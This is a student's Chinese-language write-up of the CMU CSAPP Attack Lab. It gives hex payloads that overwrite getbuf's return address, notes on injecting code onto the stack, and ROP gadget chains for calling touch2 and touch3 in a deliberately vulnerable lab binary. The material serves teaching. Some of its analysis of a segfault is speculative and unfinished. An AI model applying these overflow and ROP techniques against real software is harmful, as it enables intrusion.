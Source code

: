 # CMU CSAPP lab 3: attack lab
## level 1
所用工具
- objdump -d
- gdb

目标是修改getbuf函数中的ret之后的位置。（writeup）

暴力解法：(1h)
- 不停地尝试输入字符串，需要被修改的地址躺在40Byte远的地方，于是输入: 带星号的是touch1的地址。
```hex
11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 00 11 22 33 44 55 66 77 88 99 *00 c0 17 40 00 00 00 00 00*
```

理论解法：
getbuf 中为数据预留了0x28个Byte的位置，也就是40个Byte
```asm
sub    $0x28,%rsp
```

小结：
此题用到了简单的修改return地址。C3 ret的原理就是pop rip。所以将栈上的地址修改为想要的新rip，既能完成攻击。攻击的前提是：知道目标地址。此处程序地址没有随机（被老师有意关闭了），所以是固定的。若不固定，可以通过相对地址推算。

## level 2
工具
- 想植入 instruction 就需要它对应的 byte code 。 可以写汇编->编译->反编译查看

```bash
 gcc -c xxx.s -o xxx
 objdump -d xxx > xxxx.s 
```


write up 的提示很到位。此题需要在栈上写入代码，并返回到栈上执行。RECALL: stack只是一块memory。此安全问题已被很好解决：即设置memory page的可执行位，stack page 为不可执行。
所以前提：关闭 stack page 不可执行的安全选项。。

## level 3
踩坑：想要攻击的函数若调用别的函数可能覆盖 stack 上你的攻击代码。

## level 4
gadget 1: 4019ab pop %rax

gadget 2: 4019a3 movl %rax,%edi

touch2

## level 5
有两种可能路径：
1. 找到原有代码中，cookie的地址。
2. 想办法动态取出随机后的栈地址。

第二种比较自然

尝试找出farm中所有在表内的gadget:
```
401a06 movq %rsp %rax
4019a2 movq %rax %rdi

401a3c: movl %esp %eax
401a42: movl %eax %edx
401a34: movl %edx %ecx
401a13: movl %ecx %esi

4019ab pop %rax

4019dc: popq %rsp 4019dd: movl %eax %edx
```
发现可以用movq %rsp %rax 把地址拿出来，但是我们还需要对地址进行加减，否则不能指定到想要的存cookie的位置。

于是再次观察farm，发现有一个函数本身就有用：
```
4019d6 add_xy
```
此时我想用以下的方式构建答案byte code：
```
401a06 movq %rsp %rax
4019a2 movq %rax %rdi
4019ab pop %rax
cookie
401a00 nop (start with 00)
4019ab pop %rax
16
401a42 movl %eax %edx
401a34 movl %edx %ecx
401a13 movl %ecx %esi
4019d6 add_xy
4019a2 touch3
```
其中 nop 的加入是为了让 cookie 字串以 0 为结束。
但是这个方法会seg fault。。。之后再分析

更好的答案是把 cookie 字串放在最后让后添 0
```
401a06 movq %rsp %rax
4019a2 movq %rax %rdi
401a00 nop (start with 00)
4019ab pop %rax
0x48
401a42 movl %eax %edx
401a34 movl %edx %ecx
401a13 movl %ecx %esi
4019d6 add_xy
4019a2 touch3
cookie 
00
```

### seg fault 分析
1. 可能是因为输入太长了，覆盖了什么东西？
    - 把标准答案后再添了点东西，发现并不会造成 seg fault 不是这个原因。
2. 猜测是栈顶释放掉空间属于是别人的了，所以要把未来要用的数据藏在栈底。
